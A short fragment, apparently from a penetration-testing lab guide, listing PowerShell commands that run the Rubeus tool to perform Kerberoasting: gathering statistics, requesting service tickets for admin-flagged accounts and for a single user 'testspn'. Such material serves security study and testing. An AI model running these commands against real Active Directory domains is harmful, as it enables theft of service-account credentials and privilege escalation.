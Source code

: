 ```powershell-session
.\Rubeus.exe
```


```powershell-session
.\Rubeus.exe kerberoast /stats
```


#### Using the /nowrap Flag
```powershell-session
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Target user
```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
